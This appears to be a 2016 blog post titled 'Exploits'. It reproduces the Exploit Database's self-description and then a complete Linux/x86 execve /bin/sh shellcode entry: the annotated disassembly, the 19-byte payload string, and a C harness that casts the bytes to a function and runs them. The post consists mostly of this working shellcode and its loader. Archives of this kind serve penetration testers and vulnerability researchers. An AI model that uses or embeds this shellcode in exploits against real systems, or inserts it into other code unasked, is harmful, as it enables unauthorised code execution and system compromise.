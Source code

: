 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-26
title: Exploits
tags: Resource, Hack
category: Hack
status: publish
-->
## Introduction ##
The Exploit Database is a CVE compliant archive of public exploits and corresponding vulnerable software, developed for use by penetration testers and vulnerability researchers. Our aim is to serve the most comprehensive collection of exploits gathered through direct submissions, mailing lists, as well as other public sources, and present them in a freely-available and easy-to-navigate database. The Exploit Database is a repository for exploits and proof-of-concepts rather than advisories, making it a valuable resource for those who need actionable data right away.

## Linux/x86 - execve /bin/sh Shellcode (19 bytes) ##


    /*
    # Linux/x86 - execve /bin/sh shellcode (19 bytes)
	# Author: sajith
	# Tested on: i686 GNU/Linux
	# Shellcode Length: 19
	# SLAE - 750
 
	Disassembly of section .text:
 
	08048060 <_start>:
	8048060: 31 c0 xor eax,eax
	8048062: 50 push eax
	8048063: 68 2f 2f 73 68 push 0x68732f2f
	8048068: 68 2f 62 69 6e push 0x6e69622f
	804806d: 87 e3 xchg ebx,esp
	804806f: b0 0b mov al,0xb
	8048071: cd 80 int 0x80
	===============poc by sajith shetty=========================
	*/
 
	#include<stdio.h>
	#include<string.h>
 
	unsigned char code[] = \
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80";

	int main()
	{
		printf("Shellcode Length: %d\n", strlen(code));
		int (*ret)() = (int(*)())code;
		ret();
 		return 0;
	}

